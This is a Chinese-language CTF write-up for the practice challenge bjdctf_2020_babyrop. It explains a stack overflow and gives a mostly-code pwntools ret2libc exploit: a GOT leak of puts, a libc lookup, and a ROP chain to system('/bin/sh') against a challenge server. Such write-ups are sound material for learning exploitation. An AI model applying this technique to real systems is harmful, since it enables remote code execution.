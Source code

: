 # 0x019.bjdctf_2020_babyrop - ret2csu + ret2libc

惯例`checksec`，只开了栈不可执行保护

![image.png](img/4a136007b71e04e6d60c2f6a8c2e031b.png)

拖入IDA进行分析

![](img/bda7c26e98c8f8a531d0fa6c08a78cf2.png)

可以发现在`vuln()`函数处存在栈溢出

由于没有后面函数，故考虑ret2libc构造rop链执行`system("/bin/sh")`

构造exp如下：

```
from pwn import *
from LibcSearcher import *

p = remote('node3.buuoj.cn',28167) 
e = ELF('./bjdctf_2020_babyrop')

pop_rdi_ret = 0x400733
puts_plt = e.plt['puts']
puts_got = e.got['puts']
offset = 0x20

payload1 = offset*b'A' + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(e.sym['vuln'])

p.recv()
p.sendline(payload1)
puts_str = p.recvuntil(b'\nPull up',drop = True).ljust(8,b'\x00')
print(puts_str)
puts_addr = u64(puts_str)

libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
sh_addr = libc_base + libc.dump('str_bin_sh')
sys_addr = libc_base + libc.dump('system')

payload2 = offset*b'A' + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)
```